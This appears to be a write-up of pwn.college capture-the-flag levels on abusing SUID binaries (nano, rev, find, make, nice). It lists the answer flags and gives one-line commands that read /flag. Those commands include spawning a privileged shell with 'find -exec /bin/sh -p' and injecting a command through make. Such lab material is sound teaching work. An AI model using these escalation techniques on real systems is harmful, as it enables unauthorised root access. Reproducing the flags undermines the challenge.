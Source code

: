 Level 9 - the SUID bit on /usr/bin/nano

Answer: pwn.college{sJryTe-t1d5EN-wehnqIEnBp2a6.0VM1EDL0MjM3QzW}

`nano` is user-friendly command line-based text editor. Unlike vim editor or any other command-line editor, it doesn’t have any mode. And it has an easy GUI(Graphical User Interface) which allows users to interact directly with the text in spite of switching between the modes as in vim editor.

```bash
`nano /flag`
```

Level 10 - the SUID bit on /usr/bin/rev

Answer: pwn.college{AUiUyAs5rn99guDsmcLextnwB0i.0lM1EDL0MjM3QzW}

`rev` is to reverse the lines characterwise. It reverses the order of the characters in each lines by copying the specified files to the standard output.

```bash
`rev /flag`
`echo "}WzQ3MjM0LDE1Ml0.i0BwntxeLcmsDug99nr5sAyUiUA{egelloc.nwp" | rev`
```

Level 25 - the SUID bit on /usr/bin/find

Answer: pwn.college{0SWf5DIvyjnM2_ysyw26tcEJuyd.01N2EDL0MjM3QzW}

`find` is to search files and directories. To use the `find` command, I need to specify the directory to search and the criteria for the search.

```bash
find . -exec /bin/sh -p \;
# It will show a new shell
cat /flag
```

Level 26 - the SUID bit on /usr/bin/make

Answer: pwn.college{s0oqIbabpdJC-23-Uu5Y21RGCCW.0FO2EDL0MjM3QzW}

`make` is a utility for building and maintaining groups of programs and files form source code. It allows users to install and compile many utilities from the terminal.

In this command `echo 'password:;cat /flag'`, at first I made a shell command to execute the 'cat /flag' command via 'make' and then, in the `make -f - password`, I made targeted password in the arbitary shell is executed.

Please keep in mind, this process does not involve creating an 'password' file. The purpose of this command is to execute the `cat /flag` command via `make`.

```bash
echo 'password:;cat /flag' | make -f - password
```

Level 27 - the SUID bit on /usr/bin/nice

Answer: pwn.college{wRMEE6k8uu6sobd3Hfkf-l4BzhB.0VO2EDL0MjM3QzW}

`nice` launches a process with a user-defined scheduling priority and helps in execution of a program/process with modified scheduling priority.
